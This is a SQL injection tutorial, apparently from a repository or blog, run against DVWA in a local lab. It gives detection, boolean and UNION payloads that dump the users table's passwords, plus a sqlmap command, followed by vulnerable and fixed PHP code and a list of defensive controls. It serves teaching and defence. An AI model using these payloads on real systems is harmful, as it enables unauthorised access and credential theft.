

Every test target I use for this — WebGoat, DVWA on low security, OWASP Juice
Shop, PortSwigger's labs — teaches the same three steps. Detection is
mechanical. Exploitation is repetitive. Prevention is a five-line code change
that people still do not make.

## Lab target

```text
Target:  DVWA on a local VM (Security level: low)
Endpoint: GET /vulnerabilities/sqli/?id=1&Submit=Submit
Note:    only ever run this against the VM you host.
```

## Step 1 — Detection

Start with something that must break the query.

| Payload | Expected signal |
| --- | --- |
| `'` | a 500, or a driver error printed to the page |
| `''` | the original page returns (quote balancing confirms the cause) |
| `1' AND '1'='1` | same content as `id=1` |
| `1' AND '1'='2` | empty result, no error |

```console
$ curl -s "http://dvwa.lab/vulnerabilities/sqli/?id=1%27&Submit=Submit" | grep -iE 'sql|syntax|error'
You have an error in your SQL syntax; check the manual that corresponds to your
MariaDB server version for the right syntax to use near ''1''' at line 1
```

That error is the confirmation: the quote reached the query parser. The
balanced-quote control (`''`) returning normally rules out an unrelated 500.

## Step 2 — Prove it with boolean logic

Boolean-based confirmation is the most useful step because it works when errors
are suppressed:

```text
id=1' AND SUBSTRING(@@version,1,1)='1' -- -    → true  → page renders normally
id=1' AND SUBSTRING(@@version,1,1)='9' -- -    → false → page empty
```

> [!TIP]
> `-- -` matters. The trailing space and dash keep the comment valid in MySQL
> where `--` alone needs a following whitespace. `#` works too, but `#` is a
> fragment separator in URLs, so it must be sent as `%23`.

## Step 3 — Extract with UNION

Column count first:

```text
1' ORDER BY 1 -- -     → ok
1' ORDER BY 2 -- -     → ok
1' ORDER BY 3 -- -     → error  ⇒ two columns
```

Then find which columns are displayed:

```text
1' UNION SELECT 1,2 -- -
```

Once you know column 2 is echoed to the page, enumerate:

```sql
1' UNION SELECT 1, database() -- -
1' UNION SELECT 1, GROUP_CONCAT(table_name) FROM information_schema.tables
     WHERE table_schema = database() -- -
1' UNION SELECT 1, GROUP_CONCAT(column_name) FROM information_schema.columns
     WHERE table_name = 'users' -- -
1' UNION SELECT 1, GROUP_CONCAT(user_id, 0x3a, user, 0x3a, password SEPARATOR 0x0a)
     FROM users -- -
```

`0x3a` is a colon and `0x0a` a newline — hex avoids quoting problems inside the
nested query.



## The same thing automated

```bash
sqlmap -u "http://dvwa.lab/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=REDACTED; security=low" \
  --batch --dbs --threads 4 --random-agent
```

Automation is for confirmation and for the boring extraction loop. If you cannot
explain the payload that produced a result, you cannot write the remediation,
and `--batch` output pasted into a report without understanding is how false
positives get published.

> [!WARNING]
> `--risk 3 --level 5` enables payloads that write to and delete from the
> database. Never run them outside a throwaway lab; on a production target that
> is data loss, not testing.

## What the vulnerable code looks like

```php
// Vulnerable: user input concatenated straight into the statement.
$id = $_GET['id'];
$result = mysqli_query($conn, "SELECT first_name, last_name FROM users WHERE user_id = '$id'");
```

```php
// Fixed: a prepared statement with a bound parameter.
$stmt = $conn->prepare('SELECT first_name, last_name FROM users WHERE user_id = ?');
$stmt->bind_param('i', $_GET['id']);   // 'i' = integer, enforced by the driver
$stmt->execute();
$result = $stmt->get_result();
```

Three properties make this fix hold: the query structure is sent before the
data, the parameter is typed, and the value can never be parsed as SQL syntax.

## The layers that should also exist

| Control | Effect |
| --- | --- |
| Parameterised queries / ORM binding | removes the vulnerability class at the source |
| Least-privilege DB account | an injected query cannot read `information_schema` it has no rights to |
| WAF with SQLi rules | catches the crude attempts and buys response time |
| Generic error pages | stops schema and version disclosure that accelerates step 3 |
| Logging on `SQLSTATE` errors | a burst of syntax errors is the loudest available signal |

## References

- [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [PortSwigger — SQL injection](https://portswigger.net/web-security/sql-injection)
- [CWE-89: Improper Neutralization of Special Elements used in an SQL Command](https://cwe.mitre.org/data/definitions/89.html)
